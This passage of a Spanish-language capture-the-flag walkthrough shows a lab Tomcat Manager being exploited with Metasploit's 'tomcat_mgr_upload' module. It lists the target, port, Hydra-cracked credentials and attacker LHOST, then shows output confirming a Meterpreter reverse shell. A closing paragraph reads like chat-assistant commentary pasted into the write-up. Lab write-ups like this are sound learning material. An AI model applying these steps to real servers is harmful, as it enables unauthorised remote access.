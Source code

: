 
Hemos identificado los parámetros necesarios y hemos corregido el error del RPORT por defecto (80) al puerto correcto 1234. 

Con la IP objetivo, las credenciales válidas y el payload listo (java/meterpreter/reverse_tcp), estamos preparados para la explotación.


## Paso 15: Explotación y Obtención de la Shell (Metasploit)

Con todos los parámetros configurados correctamente (Paso 14), el último paso es ejecutar el módulo de Metasploit para automatizar la inyección del payload en el servidor Tomcat y establecer una conexión de reverse shell.

<img width="886" height="338" alt="ejecuto el metasploit" src="https://github.com/user-attachments/assets/808ca037-791b-4336-931d-71e1402a4efd" />


🛠️ Comandos de Configuración y Ejecución

Se establecieron los parámetros clave para la explotación:

Parámetro	Valor Establecido	Razón

RHOSTS	10.10.221.85	IP del objetivo.

RPORT	1234	Puerto del servidor Tomcat Manager.

HttpUsername	bob	Usuario con permisos de manager.

HttpPassword	[Password]	Contraseña obtenida vía Hydra.

LHOST	10.11.147.155	IP de la máquina de ataque (Kali).

Una vez configurado, se ejecuta el ataque:

Bash

msf exploit(multi/http/tomcat_mgr_upload) > run

✅ Análisis del Resultado

El módulo ejecuta la secuencia de ataque, que incluye la creación del manejador de la reverse shell, la obtención de los tokens de sesión, la carga (uploading and deploying) del payload WAR, y la ejecución del mismo.

La línea final confirma el éxito:

[*] Meterpreter session 1 opened (10.11.147.155:4444 -> 10.10.221.85:50114) at 2025-09-30 21:27:41 +0200
meterpreter > 

¡Se abrió la sesión Meterpreter! 🎉 Hemos obtenido nuestro primer punto de apoyo en la máquina objetivo.



¡Alto ahí! La primera captura de este mensaje es un duplicado del Paso 1, pero la segunda captura... ¡Has llegado a root!

Aunque en el walkthrough el orden lógico dicta que primero se obtiene la user.txt y luego se escala a root, vamos a documentar este paso final como la obtención de la Flag de Root, lo que implica que ya has completado la fase de escalada de privilegios.
